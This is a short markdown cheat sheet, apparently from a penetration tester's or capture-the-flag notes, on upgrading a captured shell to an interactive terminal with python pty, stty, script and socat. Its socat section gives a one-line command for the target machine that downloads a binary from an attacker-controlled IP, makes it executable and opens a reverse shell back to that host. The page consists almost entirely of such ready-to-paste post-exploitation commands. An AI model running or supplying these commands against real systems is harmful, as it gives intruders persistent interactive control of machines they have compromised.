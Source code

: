```yaml
---
title: "Upgrade Shell"
date: 2024-6-27
tags: ["shell", "python", "bash", "sh", "tty"]
---
```


---
### Upgrade Shell

#### Check installed binary

```bash
which sh
```

```bash
which bash
```

```bash
which python3
```

```bash
which python
```

<br>

---

### python

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
# Ctrl-Z to send the process to background, then
stty raw -echo; fg
```

```bash
# After fg, press enter again, then
export TERM=xterm-256color
```

<br>

---

### socat

[Download socat](https://github.com/3ndG4me/socat)

```bash
# Start a local http server
python3 -m http.server 80
```

```bash
# In our local Linux machine
socat file:`tty`,raw,echo=0 tcp-listen:1337
```

```bash
# In target machine
wget -q http://10.10.14.10/socat -O /tmp/socat && chmod +x /tmp/socat && /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.10:1337
```

```bash
# In our local Linux machine
export TERM=xterm-256color
```

<br>

---

### script

```bash
script -qc /bin/bash /dev/null
```

<br>